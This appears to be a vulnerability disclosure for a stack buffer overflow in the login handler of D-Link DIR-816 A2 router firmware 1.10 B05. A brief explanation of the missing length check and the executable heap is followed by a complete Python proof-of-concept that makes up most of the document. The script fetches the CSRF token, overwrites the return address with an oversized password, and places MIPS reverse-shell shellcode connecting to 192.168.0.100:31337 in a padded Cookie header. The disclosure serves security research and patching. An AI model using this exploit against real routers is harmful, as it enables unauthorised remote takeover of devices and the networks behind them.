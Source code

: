 # D-Link DIR-816 A2 Stack Overflow

**Vender** ：D-Link

**Firmware version**:1.10 B05

**Exploit Author**: nabla@galaxylab.org

**Vendor Homepage**: http://www.dlink.com.cn/

**Hardware Link**:http://support.dlink.com.cn/ProductInfo.aspx?m=DIR-816

## Vul detail ##

In the handler of route `/goform/formLogin`, the value of parameter `password` is base64 decoded and the result is saved on the stack:

![](ida1.png)

However, there's no check on length of the password, and a very long input could lead to stack overflow and overwrite the return address:

![](gdb1.png)

Moreover, the ASLR is partially open and the heap is at fixed address:

![](gdb2.png)

Also the heap has permission `rwx`:

![](gdb3.png)

Therefore, we could build a very large HTTP header which contains the shellcode, and set the return address to that shellcode.

## POC

```python
#!/usr/bin/env python

# POC code reference: https://0x3f97.github.io/exploit/2018/05/13/D-Link-DIR-816-A2-CN-router-stack-based-buffer-overflow/

from pwn import *
import requests

# First, we need the CSRF token
r=requests.get('http://192.168.0.1/dir_login.asp')
for l in r.content.split('\n'):
    if 'tokenid' in l:
        q2 = l.rfind('"')
        q1 = l[:q2].rfind('"')
        tokenid = l[q1+1:q2]

print 'tokenid is %s' % tokenid

# The shellcode would be at 0x48fc18
newRet = '\x18\xfc\x48\x00'

# Reverse shell to 192.168.0.100:31337
# Credit: http://shell-storm.org/shellcode/files/shellcode-860.php
shellcode = "\xff\xff\x04\x28\xa6\x0f\x02\x24\x0c\x09\x09\x01\x11\x11\x04\x28"
shellcode += "\xa6\x0f\x02\x24\x0c\x09\x09\x01\xfd\xff\x0c\x24\x27\x20\x80\x01"
shellcode += "\xa6\x0f\x02\x24\x0c\x09\x09\x01\xfd\xff\x0c\x24\x27\x20\x80\x01"
shellcode += "\x27\x28\x80\x01\xff\xff\x06\x28\x57\x10\x02\x24\x0c\x09\x09\x01"
shellcode += "\xff\xff\x44\x30\xc9\x0f\x02\x24\x0c\x09\x09\x01\xc9\x0f\x02\x24"
shellcode += "\x0c\x09\x09\x01\x79\x69\x05\x3c\x01\xff\xa5\x34\x01\x01\xa5\x20"
shellcode += "\xf8\xff\xa5\xaf\x00\x64\x05\x3c\xc0\xa8\xa5\x34\xfc\xff\xa5\xaf"
shellcode += "\xf8\xff\xa5\x23\xef\xff\x0c\x24\x27\x30\x80\x01\x4a\x10\x02\x24"
shellcode += "\x0c\x09\x09\x01\x62\x69\x08\x3c\x2f\x2f\x08\x35\xec\xff\xa8\xaf"
shellcode += "\x73\x68\x08\x3c\x6e\x2f\x08\x35\xf0\xff\xa8\xaf\xff\xff\x07\x28"
shellcode += "\xf4\xff\xa7\xaf\xfc\xff\xa7\xaf\xec\xff\xa4\x23\xec\xff\xa8\x23"
shellcode += "\xf8\xff\xa8\xaf\xf8\xff\xa5\x23\xec\xff\xbd\x27\xff\xff\x06\x28"
shellcode += "\xab\x0f\x02\x24\x0c\x09\x09\x01"

# A long password for overflow
pl1 = 'a'*160 + newRet*2

rn = "\r\n"
padding = "\x00\x00\x00\x00"

pl2 = ('tokenid=%s&username=abcd&password=' % tokenid) + b64e(pl1)

payload = "POST /goform/formLogin " + "HTTP/1.1" + rn
payload += "Host: 192.168.0.1"+rn
payload += "User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:59.0) Gecko/20100101 Firefox/59.0" + rn
payload += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8" + rn
payload += "Accept-Language: en-US,en;q=0.5" + rn
payload += "Accept-Encoding: gzip, deflate" + rn
payload += "Cookie: curShow=; ac_login_info=passwork; test=A" + padding*0x100 + shellcode + padding*0x4000 + rn
payload += "Connection: close" + rn
payload += "Upgrade-Insecure-Requests: 1" + rn
payload += ("Content-Length: %d" % len(pl2)) +rn
payload += 'Content-Type: application/x-www-form-urlencoded'+rn
payload += rn
payload += pl2

p = remote('192.168.0.1', 80)
p.send(payload)
print p.recv()
```
